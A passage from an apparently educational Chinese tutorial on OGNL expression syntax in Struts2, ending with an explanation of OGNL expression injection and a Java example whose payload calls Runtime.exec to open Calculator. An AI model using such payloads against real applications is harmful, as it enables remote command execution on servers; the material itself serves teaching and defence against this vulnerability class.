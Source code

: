 OGNL 支持直接使用表达式来创建对象。主要有三种情况：

- 构造 List 对象：使用 {}, 中间使用 ',' 进行分割如 {"aa", "bb", "cc"}
- 构造 Map 对象：使用 #{}，中间使用 ', 进行分割键值对，键值对使用 ':' 区分，如 #{"key1" : "value1", "key2" : "value2"}
- 构造任意对象：直接使用已知的对象的构造方法进行构造。

```java
System.out.println(Ognl.getValue("{'key1','value1'}", null));	// [key1, value1]
System.out.println(Ognl.getValue("#{'key1':'value1'}", null));	// {key1=value1}
System.out.println(Ognl.getValue("new java.lang.String('123')", null));	// 123
```

### # 和 % 和 $ 的区别

#### #符

`#`符主要有三种用途：

- 访问非根对象属性，即访问OGNL上下文和Action上下文，由于Struts2中值栈被视为根对象，所以访问其他非根对象时需要加#前缀，#相当于`ActionContext.getContext()`；
- 用于过滤和投影（projecting）集合，如`books.{? #this.price<100}`；
- 用于构造Map，如`#{'foo1':'bar1', 'foo2':'bar2'}`；

#### %符

`%`符的用途是在标志的属性为字符串类型时，告诉执行环境%{}里的是OGNL表达式并计算表达式的值。

#### $符

`$`符的主要作用是在相关配置文件中引入OGNL表达式，让其在配置文件中也能解析OGNL表达式。（换句话说，$用于在配置文件中获取ValueStack的值用的）。

### # 和 . 和 @ 的区别

- 获取静态函数和变量的时候用@
- 获取非静态函数用.号获取
- 获取非静态变量用#获取

## OGNL表达式注入

> webwork2和现在的Struts2.x中使用OGNL取代原来的EL来做界面数据绑定，所谓界面数据绑定，也就是把界面元素（例如一个textfield,hidden)和对象层某个类的某个属性绑定在一起，修改和显示自动同步。而Struts2框架正是因为滥用OGNL表达式，使之成为了“漏洞之王”。


由前面知道，**OGNL可以访问静态方法、属性以及对象方法等**，其中包含可以执行恶意操作如命令执行的类`java.lang.Runtime`等，当OGNL表达式外部可控时，攻击者就可以构造恶意的OGNL表达式来让程序执行恶意操作，这就是OGNL表达式注入漏洞。

### 注入举例

格式`@[class]@[field/method()]`

```java
package org.example;

import ognl.Ognl;
import ognl.OgnlException;

public class OgnlTest {
    public static void main(String[] args) throws OgnlException {
        // @[class]@[field/method()]
        String payload = "@java.lang.Runtime@getRuntime().exec('open -na Calculator')";
        System.out.println(Ognl.getValue(payload, null));

    }
}
```
